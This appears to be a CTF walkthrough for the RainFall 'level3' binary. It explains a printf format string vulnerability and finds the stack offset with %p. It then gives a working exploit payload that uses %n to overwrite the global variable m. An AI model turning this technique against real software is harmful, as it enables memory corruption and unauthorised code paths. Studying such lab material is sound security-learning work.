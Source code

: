 We start by opening the file in [dogbolt](https://dogbolt.org/). Here we can see that it use a printf without specifying a format

So we can try to play with it by, doing something like:
``` Shell
level3@RainFall:~$ ./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

We can see that using `%p` result in memory display.

Since with printf we can write on the stack using `%n`, allowing the user to defined the string format is a vulnerability.

Now we will see how to write on our variable `m` to enter the if statement.
We know that `%n` can put the length of a string in a given address :

``` C
printf("abc%n\n",&nb); // nb == 3
```
Here the length of the string before the `%n` is put in `nb`.


Ok we know, that can we can write with `%n`, where do I put the result of `%n` ?
Let's find where to write:
- We know that when you use `%n` in a normal usage, `printf` put the value given by `%n` at a specific address given by the vaargs
- However when there is no corresponding argument `printf` will still attempt to access whatever value is on the stack
- We know that a buffer containing our input exists on the stack
- So we will put the address of `m` at the start of our buffer
- By entering "AAAA" in the input and using some `%p`, we can pinpoint the position within our buffer where the address of `m` is stored.
``` Shell
./level3
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```
- We see that our buffer start at 4 pointer or `%4$p`


Address of `m` who can be found with `objdump -t`
address : `0804988c`
in little endian : `\x8c\x98\x04\x08`

The injection will look like:
[address of `m` (where `%n` will write)][60 (64 - len(address))][`%4$n`(where we can find the address to write)]

```Shell
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3
```
